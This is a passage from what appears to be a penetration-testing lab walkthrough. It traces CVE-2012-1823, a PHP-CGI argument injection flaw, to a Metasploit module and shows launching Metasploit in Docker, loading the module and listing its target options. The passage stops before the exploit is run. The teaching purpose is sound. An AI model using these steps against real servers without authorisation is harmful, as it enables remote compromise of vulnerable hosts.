 ## Running the Metasploit Module

***

In the report, we notice a few things including a weak password but for the purpose of
this exercise we will focus on vulnerability present in the CGI module of PHP.
In the report we see a few CVE references including `CVE-2012-1823`.

We can look up this reference on [CVE details](https://www.cvedetails.com/)
and find [the page](https://www.cvedetails.com/cve/CVE-2012-1823)
containing information we're interested in.

On it, we find a reference to a metasploit module to exploit this
vulnerability `exploit/multi/http/php_cgi_arg_injection`. We can now proceed
to run this exploit. First, run the container used to execute the exploit

```
$ docker-compose run metasploit
```

you should have an interface similar to

```
# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v5.0.6-dev-eeed14d                   ]
+ -- --=[ 1856 exploits - 1052 auxiliary - 326 post       ]
+ -- --=[ 546 payloads - 44 encoders - 10 nops            ]
+ -- --=[ 2 evasion                                       ]

msf5 >
```

from here, we load the exploit module

```
> use exploit/multi/http/php_cgi_arg_injection
```

check the required options

```
msf5 exploit(multi/http/php_cgi_arg_injection) > show options

Module options (exploit/multi/http/php_cgi_arg_injection):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   PLESK        false            yes       Exploit Plesk
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target address range or CIDR identifier
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI                     no        The URI to request (must be a CGI-handled PHP script)
   URIENCODING  0                yes       Level of URI URIENCODING and padding (0 for minimum)
   VHOST                         no        HTTP server virtual host


Exploit target:

```

[pt1]: /assets/images/pentest1.png
[pt2]: /assets/images/pentest2.png
[pt3]: /assets/images/pentest3.png
[pt4]: /assets/images/pentest4.png